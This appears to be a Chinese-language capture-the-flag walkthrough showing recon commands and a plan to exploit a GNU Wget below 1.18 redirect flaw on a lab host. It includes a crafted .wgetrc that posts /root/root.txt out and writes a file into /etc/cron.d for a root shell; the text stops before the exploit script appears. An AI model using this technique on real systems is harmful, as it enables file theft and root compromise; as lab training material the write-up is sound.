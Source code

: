 ### 线索app.log
app.log暗示了我们10.0.3.133的wget版本`Wget/1.16`

`wget -V`，发现主机10.10.10.55的Wget版本为 `1.17.1`

有一个主机10.0.3.133，每两分钟获取主机10.10.10.55的/archive.tar.gz文件。

```
searchsploit Wget
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution 

searchsploit -m exploits/linux/remote/40064.txt
```
查看40064.txt

---

### 信息搜集

**ifconfig**
```
eth0 inet addr:10.10.10.55
lxcbr0 inet addr:10.0.3.1
```
`arp -a` 查看本地arp缓存表。
显示局域网ip有两个，`10.10.10.2` `10.10.3.133`
shell终端运行nmap，显示不能用。
那么用nc来扫描端口：
`nc -v 10.10.3.133 445`
`nc -v 10.10.3.133 3389`
`nc -v 10.10.3.133 22`
只有22端口显示succeeded。
这一步骤为了确定ip133的是什么机器，显然是linux机器。

看来我们要提权10.10.3.133的root权限，来获得root.txt

### wget漏洞利用
#### 利用思路
当133主机请求10.0.3.1的archive存档文件时候，3.1会提示404不存在。

如果我们用kali开启ftp服务，并且让3.1重定向到kali-ftp，于是133主机就会取回.wgetrc作为全局初始化配置文件。

.wgetrc提示发送/root/root.txt，于是133就将本机的机密文件发送给了10.0.3.1

#### 利用过程
kali-ip : touch exp.py
touch .wgetrc

.wgetrc文件内容，保存的绝对路径为/root/.wgetrc
```
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
```
>wgetrc是一个全局初始启动的配置文件
post-file选项使你选择一个具体的文件发送
output_document选项，使下载的文件以你设置的文件名保存
